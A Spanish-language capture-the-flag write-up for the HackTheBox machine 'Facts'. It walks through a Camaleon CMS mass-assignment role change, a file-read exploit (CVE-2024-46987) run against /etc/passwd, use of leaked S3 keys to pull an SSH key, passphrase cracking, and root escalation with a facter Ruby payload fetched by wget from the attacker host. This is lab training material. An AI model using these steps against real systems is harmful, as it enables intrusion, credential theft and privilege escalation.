

# Facts — Write-Up

| Campo | Detalle |
|---|---|
| **Máquina** | [Facts](https://app.hackthebox.com/machines/Facts) |
| **Plataforma** | [HackTheBox](https://app.hackthebox.com/) |
| **Sistema Operativo** | Linux (Ubuntu) |
| **Dificultad** | Fácil |
| **Flags** | 2 (user + root) |

---

## Reconocimiento

### Enumeración de puertos

Se lanza un escaneo completo con Nmap para descubrir servicios activos:

```bash
nmap -p- -sCV -T5 --open -vvv -oN Facts 10.129.14.49
```


Puertos abiertos:
- **Puerto 22** — SSH (OpenSSH 9.9p1, Ubuntu)
- **Puerto 80** — HTTP (nginx 1.26.3, Ubuntu)
- **Puerto 54321** — HTTP (Golang net/http — MinIO)

El escaneo también revela en los fingerprints del puerto 54321 referencias a `Trinity.txt.bak` y un endpoint S3, lo que indica que hay un servidor MinIO expuesto.

### Configuración del fichero hosts

Se añade el dominio `facts.htb` al fichero `/etc/hosts` para resolver correctamente el virtual host:

```bash
echo "10.129.14.49 facts.htb" >> /etc/hosts
```


---

## Enumeración Web

Al acceder a `facts.htb` desde el navegador se muestra una aplicación de trivia llamada **FACTS** con un botón "Start Exploring":


### Fuzzing de directorios

Se lanza **ffuf** sobre `facts.htb` para descubrir rutas adicionales:

```bash
ffuf -u http://facts.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Se descubren rutas relevantes como `/admin`, `/search`, `/sitemap`, `/robots`, entre otras.

### Panel de administración

Se accede a `facts.htb/admin/login` y se muestra un formulario de login del CMS:


Se descubre también el endpoint de registro en `facts.htb/admin/register`. Se crea una cuenta con usuario **JJ** y contraseña **pepe**:


Tras el registro se accede al dashboard del CMS. En el pie de página se identifica el software: **Camaleon CMS versión 2.9.0**:


---

## Explotación — CVE-2024-46987 (Camaleon CMS Arbitrary File Read)

### Investigación de la vulnerabilidad

Se busca información sobre la versión del CMS. Se encuentra **CVE-2024-46987**: una vulnerabilidad de Path Traversal / LFI en el método `download_private_file` del `MediaController` de Camaleon CMS 2.8.0 a 2.9.0, que permite a usuarios autenticados leer ficheros arbitrarios del servidor:


### Clonado del exploit

Se clona el repositorio con el PoC en Python:

```bash
git clone https://github.com/Goultarde/CVE-2024-46987
```



### Escalada de privilegios en el CMS — Mass Assignment

Antes de ejecutar el exploit se necesitan credenciales de administrador. Se intercepta con **Burp Suite** la petición de actualización de perfil:


Se añade el parámetro `&password[role]=admin` al body de la petición para aprovechar una vulnerabilidad de mass assignment y asignarse el rol de administrador:


Se refresca el panel y se confirma acceso completo como administrador, con todos los menús habilitados (Users, Settings, Plugins, etc.):


### Lectura de ficheros con el exploit

Con credenciales de administrador se ejecuta el exploit para leer `/etc/passwd` y descubrir usuarios del sistema:

```bash
python3 CVE-2024-46987.py -u 'http://facts.htb' -l 'JJ' -p 'pepe' '/etc/passwd'
```


Se identifican dos usuarios con shell válida: **trivia** y **william**.

### Credenciales AWS S3 expuestas en el panel

En **Settings → General Site → Filesystem Settings** se encuentran las credenciales de AWS S3 configuradas en la aplicación:

- **Access Key:** `AKIA8A2C6AC6FBE2D7F4`
- **Secret Key:** `5QCdcJ9aZkIfshCtfj5urkd5pRIRQwFzBQu9a2kt`
- **Bucket:** `internal`
- **Endpoint:** `http://localhost:54321`


---

## Acceso Inicial — Clave SSH desde bucket S3

### Configuración del cliente AWS

Se configuran las credenciales encontradas en el cliente AWS:

```bash
aws configure
```


### Descarga del bucket interno

Se descarga el contenido del bucket `s3://internal` apuntando al endpoint MinIO expuesto en el puerto 54321:

```bash
aws s3 cp --recursive --endpoint-url http://facts.htb:54321 s3://internal ./s3bucket
```


### Exploración del bucket

Se lista el contenido del directorio descargado. Se encuentra una carpeta `.ssh`:

```bash
ls -a
```


### Robo de clave privada y crackeo

Se lee la clave privada SSH encontrada en el bucket:

```bash
cat id_ed25519
```

Se extrae el hash con **ssh2john** y se crackea con **John the Ripper**:

```bash
ssh2john id_ed25519 > hash
john hash --wordlist=/home/kali/Escritorio/rockyou.txt
```

La passphrase obtenida es: **dragonballz**


### Conexión SSH

Se establece la conexión SSH con el usuario **trivia** usando la clave privada y la passphrase encontrada:

```bash
chmod 600 .ssh/id_ed25519
ssh trivia@facts.htb -i .ssh/id_ed25519
```


### Flag de usuario

```bash
cd /home/william
ls
cat user.txt
```


---

## Escalada de Privilegios — sudo facter

### Enumeración de permisos sudo

Se comprueba qué puede ejecutar `trivia` con privilegios elevados:

```bash
sudo -l
```


```
(ALL) NOPASSWD: /usr/bin/facter
```

El usuario puede ejecutar **facter** como root sin contraseña. Facter es una herramienta de inventario del sistema que acepta el parámetro `--custom-dir` para cargar ficheros `.rb` personalizados. Esto permite ejecutar código Ruby arbitrario como root.

### Creación del exploit Ruby

Se crea un fichero `exploit.rb` en `/tmp` con un payload que lanza una shell con privilegios de root:

```ruby
Facter.add(:escalada) do
  setcode do
    system("/bin/bash -p")
  end
end
```


### Transferencia del exploit a la máquina víctima

Se levanta un servidor HTTP en la máquina atacante y se descarga el fichero desde la víctima:

```bash
# Atacante
python3 -m http.server 65

# Víctima
cd /tmp
wget http://10.10.14.137:65/exploit.rb
```


### Ejecución y escalada

Se ejecuta facter con el directorio personalizado apuntando a `/tmp`:

```bash
sudo /usr/bin/facter --custom-dir /tmp
whoami
# root
```


### Flag de root

```bash
cd /root
ls
cat root.txt
```


---

## Resumen

| Fase | Técnica | Herramienta |
|---|---|---|
| Enumeración | Port Scan | `nmap` |
| Enumeración web | Fuzzing de directorios | `ffuf` |
| Acceso al CMS | Registro de cuenta | Navegador |
| Escalada en CMS | Mass Assignment (`password[role]=admin`) | Burp Suite |
| Explotación | LFI / Path Traversal (CVE-2024-46987) | Python PoC |
| Obtención de credenciales | AWS S3 credentials expuestas en Settings | Navegador |
| Acceso inicial | Clave SSH robada del bucket S3 + crackeo de passphrase | `aws` / `ssh2john` / `john` |
| Escalada | `sudo facter --custom-dir` con fichero `.rb` malicioso | `facter` / Ruby |
